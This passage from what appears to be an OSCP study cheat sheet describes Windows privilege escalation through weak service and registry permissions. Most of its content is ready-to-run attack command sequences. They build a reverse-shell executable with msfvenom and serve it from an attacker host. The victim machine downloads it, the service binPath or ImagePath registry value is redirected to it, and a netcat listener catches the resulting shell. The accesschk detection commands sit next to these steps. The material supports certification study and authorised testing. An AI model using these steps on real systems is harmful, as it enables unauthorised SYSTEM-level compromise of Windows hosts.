 7. Weak Services Permission (Insecure Configuration File Permissions (PTOC) 
- create a service, assign PTOC (pause, start, stop, change) permissions for a user against a service
- Detection: `accesschk.exe /accepteula –uwcqv ignite pentest` , returns SERVICE_ALL_ACCESS or SERVICE_CHANGE_CONFIG
```bash
sc.exe create pentest binPath= "C:\temp\service.exe"
cd C:\Program Files (x86)\Windows Resource Kits\Tools
subinacl.exe /service pentest /grant=msedgewin10\ignite=PTOC
#Detection: confirm PTOC access to pentest for user Ignite 
accesschk.exe /accepteula –uwcqv ignite pentest

#on kali
msfvenom –p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 –f exe >  shell.exe
python –m SimpleHTTPserver 80

#back to victim
cd c:\Users\public
powershell wget http://192.168.1.3/shell.exe -o shell.exe
dir
sc config pentest binPath= "C:\Users\Public\shell.exe"
net start pentest

#back to kali
nc –lvp 8888
whoami
```

8. Weak Services Permission ( Insecure Service Executable (PTO)
- If the low-privilege user has at least Pause/continue, Start, and Stop permissions for the service, an attacker may attempt to overwrite the system binaries with a malicious executable file in order to escalate privileges.
- Detection: `accesschk64.exe "c:\temp\service.exe"`, returns RW Everyone
- Exploitation: rename legit service name to .bak, exploit shell to take the name of legit service. Then run `net start pentest` to trigger the exploit shell.
- https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/

9. Weak Registry Permission
- By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.
- Detection: `accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services`, returns KEY_ALL_ACCESS
- Detection using WinPEASx64, ![image](https://github.com/redcountryroad/OSCP-shortsheet/assets/166571565/bec1d1c0-f291-4e4b-9470-634bdfdfd551)

```bash
msfvenom –p window/shell_reverse_tcp lhost=192.168.1.3 lport=8888 –f exe > shell.exe
python –m SimpleHTTPServer 80

#on victim
cd c:\Users\public
powershell wget http://192.168.1.3/shell.exe -o shell.exe
dir
reg add "HKLM\system\currentcontrolset\services\pentest" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\shell.exe" /f
net start pentest

#back on kali
nc –lvp 8888
whoami
```
